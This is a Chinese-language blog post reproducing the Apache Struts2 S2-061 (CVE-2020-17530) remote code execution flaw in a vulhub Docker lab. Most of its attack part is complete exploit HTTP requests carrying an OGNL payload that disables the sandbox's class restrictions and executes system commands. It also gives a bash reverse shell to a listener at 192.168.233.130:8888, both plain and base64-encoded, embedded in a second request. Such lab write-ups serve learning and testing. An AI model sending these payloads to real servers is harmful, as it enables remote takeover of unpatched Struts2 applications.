




# （CVE-2020-17530）Struts2 S2-061 漏洞复现 - 追得上的梦想 - 博客园

> 原文：[`www.cnblogs.com/KHZ521/p/14138872.html`](https://www.cnblogs.com/KHZ521/p/14138872.html)

### 0x01 前言

Apache Struts2 框架是一个用于开发 Java EE 网络应用程序的 Web 框架。Apache Struts 于 2020 年 12 月 08 日披露 S2-061 Struts 远程代码执行漏洞(CVE-2020-17530)，在使用某些 tag 等情况下可能存在 OGNL 表达式注入漏洞，从而造成远程代码执行，风险极大。

### 0x02 漏洞描述

Struts2 会对某些标签属性(比如 `id`，其他属性有待寻找) 的属性值进行二次表达式解析，因此当这些标签属性中使用了 `%{x}` 且 `x` 的值用户可控时，用户再传入一个 `%{payload}` 即可造成 OGNL 表达式执行。S2-061 是对 S2-059 沙盒进行的绕过。

### 0x03 漏洞回显 POC（id 为执行的命令）

> name="id"中的 id 为携带的参数（为默认参数），arglist.add("id")中的 id 为执行的命令

```
POST /index.action HTTP/1.1
Host: 192.168.233.140:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 827

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("id")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF-- 
```

### 0x04 漏洞影响版本

```
struts 2.0.0 - struts 2.5.25 
```

### 0x05 漏洞环境搭建

GitHub 地址：[`github.com/vulhub/vulhub/tree/master/struts2/s2-061`](https://github.com/vulhub/vulhub/tree/master/struts2/s2-061)
**使用 Docker 搭建漏洞环境：**
1.使用 git 下载全部项目地址（至于下载单个漏洞环境、我不会）

```
git clone https://github.com/vulhub/vulhub.git 
```


2.找到漏洞搭建的环境(vulhub 是你用 git 下载的目录)

```
cd ./vulhub/struts2/s2-061 
```


3.执行 docker-compose up -d 命令

```
docker-compose up -d 
```



如果没有 docker-compose up -d 命令请手动安装（需要 python3 这个没有的化也需要单独安装哦，以下为 CentOS7 命令）

```
#安装 python3
yum install python3

# 安装 pip
curl -s https://bootstrap.pypa.io/get-pip.py | python3

# 安装 compose
pip install docker-compose 
```

如果没有 docker 环境使用以下命令安装(以下命令为 Ubuntu 系统，ContOS 可使用 yum 直接安装)

```
# 安装最新版 docker
curl -s https://get.docker.com/ | sh

# 启动 docker 服务
systemctl start docker 
```

4.验证安装
执行 docker ps 命令，docker 环境正常，并且

```
docker ps 
```


访问 http://<ip>:8080/进行确认（如果可能 ping 通但是没法访问的小伙伴记得查看更改以下防火墙哦）
</ip>

> 至此，漏洞环境搭建完成

### 0x06 漏洞验证

1.刷新页面，抓取请求包，将抓到发到 Repeater 模块进行测试

2.将请求参数更改为 POC 内容，进行测试

3.尝试使用 bash 进行反弹 shell
将命令进行编码转换 网址：[`www.jackson-t.ca/runtime-exec-payloads.html`](http://www.jackson-t.ca/runtime-exec-payloads.html)

```
bash -i >& /dev/tcp/192.168.233.130/8888 0>&1
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIzMy4xMzAvODg4OCAwPiYx}|{base64,-d}|{bash,-i} 
```


POC:

```
POST /index.action HTTP/1.1
Host: 192.168.233.140:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 922

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIzMy4xMzAvODg4OCAwPiYx}|{base64,-d}|{bash,-i}")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF-- 
```

不知道为啥一直没反应，希望大佬指点一下

不过看其他文章都是没问题的

### 0x07 结束语

不知道为森么，ping dnslog 也是没有 ping 通，可能是有地方出问题了，菜鸟一枚，勿喷（发现问题请指点）

### 0x08 参考连接

[`www.cnblogs.com/backlion/p/14122528.html`](https://www.cnblogs.com/backlion/p/14122528.html)
[`github.com/vulhub/vulhub/blob/master/README.zh-cn.md`](https://github.com/vulhub/vulhub/blob/master/README.zh-cn.md)